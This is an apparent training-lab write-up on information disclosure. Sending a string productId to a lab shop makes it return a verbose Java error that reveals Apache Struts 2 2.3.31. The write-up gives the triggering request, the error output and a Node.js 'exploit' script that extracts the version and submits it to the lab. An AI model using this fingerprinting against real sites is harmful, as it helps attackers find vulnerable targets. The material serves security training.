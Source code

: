 # 1 - Error Messages

This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework.

### Notes

The application queries products via the `productId` query parameter. When a string value is supplied, it responds with a 500 error containing a verbose error message from the framework:

`GET /product?productId=foo HTTP/1.1`

```http
HTTP/1.1 500 Internal Server Error
Connection: close
Content-Length: 1520

Internal Server Error: java.lang.NumberFormatException: For input string: "foo"
at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)

...

Apache Struts 2 2.3.31
```

### Scripted Solution

```javascript
const axios = require('axios').default
const { JSDOM } = require('jsdom')
require('dotenv').config({ path: './.env' })

/**
 * Run exploit.
 */
async function main() {
  const labUrl = process.env.LAB_URL

  // Trigger error by requesting product id 'foo'
  try {
    await axios.get(`${labUrl}/product?productId=foo`)
  } catch (errorRes) {
    const resBody = errorRes.response.data

    // Parse response body into array by line
    const errorLines = resBody.split(/\r?\n/)

    // 'Apache Struts 2 2.3.31' is the last line of the response
    const framework = errorLines[errorLines.length - 1]
    let frameworkVersion = framework.split(' ')
    frameworkVersion = frameworkVersion[frameworkVersion.length - 1]

    // Submit version number to solve the lab
    await axios.post(`${labUrl}/submitSolution`, `answer=${frameworkVersion}`)
  }
}

main()
  .then(() => process.exit(0))
  .catch(error => {
    console.error(error)
    process.exit(1)
  })

```
